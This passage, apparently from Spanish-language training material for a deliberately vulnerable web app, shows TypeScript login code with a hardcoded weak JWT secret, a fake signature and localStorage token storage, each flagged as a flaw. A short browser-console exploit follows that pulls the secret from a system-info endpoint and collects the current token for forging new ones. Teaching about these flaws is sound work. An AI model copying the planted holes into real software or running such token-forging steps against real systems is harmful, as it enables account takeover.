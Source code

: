 ```javascript
// services/api.ts
const SYSTEM_CONFIG = {
  jwt_secret: 'vulnerable-secret-key', // 🚨 Secret hardcodeada y débil
  // ... otros configs
};

// 🚨 Función que crea JWT con secret expuesta
const createSimpleJWT = (user: Omit<User, 'password'>) => {
  const header = btoa(JSON.stringify({ alg: 'HS256', typ: 'JWT' }));
  const payload = btoa(JSON.stringify({
    id: user.id,
    username: user.username,
    email: user.email,
    role: user.role,
    iat: Math.floor(Date.now() / 1000),
    exp: Math.floor(Date.now() / 1000) + (24 * 60 * 60) // 24 horas
  }));
  const signature = btoa(`signature_with_${SYSTEM_CONFIG.jwt_secret}`);
  
  return `${header}.${payload}.${signature}`;
};

// Login que almacena en localStorage (vulnerable)
export const loginUser = async (username: string, password: string): Promise<LoginResponse> => {
  // ... validación
  const token = createSimpleJWT(userWithoutPassword);
  
  // 🚨 Almacena en localStorage (vulnerable a XSS)
  return {
    token,
    user: userWithoutPassword
  };
};
```

### 💥 **Formas de Explotación**

#### **Método 1: Extracción de JWT Secret**
```javascript
// 1. Obtener la secret del sistema
api.getSystemInfo().then(info => {
  console.log("🔑 JWT Secret obtenida:", info.secret_key);
  
  // 2. Analizar token actual
  const currentToken = localStorage.getItem('token');
  console.log("🎫 Token actual:", currentToken);
  
  // 3. Decodificar token actual
  const decoded = api.decodeCurrentToken();
  console.log("📋 Datos del token:", decoded);
  
  // Ahora tenemos todo lo necesario para forjar tokens
  (window as any).jwtExploitData = {
    secret: info.secret_key,
    currentToken,
    decodedToken: decoded
  };
}).catch(err => console.log("Error:", err.message));
```
